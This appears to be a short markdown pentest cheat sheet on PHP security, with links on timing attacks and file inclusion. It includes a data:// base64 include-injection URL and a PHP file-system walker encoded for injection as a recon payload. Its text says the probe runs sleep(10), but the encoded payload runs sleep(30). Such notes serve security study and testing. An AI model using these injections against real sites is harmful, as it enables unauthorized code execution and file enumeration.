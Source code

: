### Security - PHP

## Timing Attacks
- https://paragonie.com/blog/2015/11/preventing-timing-attacks-on-string-comparison-with-double-hmac-strategy
- http://blog.ircmaxell.com/2014/11/its-all-about-time.html
- https://github.com/pentestmonkey/timing-attack-checker

## Inclusion
- http://php.net/manual/en/function.include.php
- Don't forget about the null byte! `%00`
- https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
- https://upshell.wordpress.com/2011/06/11/new-vulnerabilities-to-access-files-in-php/

Sometimes PHP is so terribly configured you can inject your code into the inclusion. 
Here is an example of how you can pass a `sleep(10);` into a possible `include` which 
would cause the page load to be delayed by ~10s if the page did indeed and a vulernable 
input & include combo.

`index.php?file=data://text/plain;base64,PD9waHAgc2xlZXAoMzApOw==%00`

#### Recon
If you can inject your code into PHP includes, below is an example of a file system walker to list all files in the current directory.

```php
<?php function sc4nn3r($r){
echo $r.PHP_EOL;
if(is_file($r)||!is_dir($r))return;
$ds=scandir($r);
foreach($ds as$d){
  if ($d=='.'||$d == '..')continue;
  $p=$r.'/'.$d;
  sc4nn3r($p); 
 }
}; sc4nn3r('./');
```
... base64 Encodes to

`PD9waHAgZnVuY3Rpb24gc2M0bm4zcigkcil7CmVjaG8gJHIuUEhQX0VPTDsKaWYoaXNfZmlsZSgkcil8fCFpc19kaXIoJHIpKXJldHVybjsKJGRzPXNjYW5kaXIoJHIpOwpmb3JlYWNoKCRkcyBhcyRkKXsKICBpZiAoJGQ9PScuJ3x8JGQgPT0gJy4uJyljb250aW51ZTsKICAkcD0kci4nLycuJGQ7CiAgc2M0bm4zcigkcCk7IAogfQp9c2M0bm4zcignLi8nKTs=
`


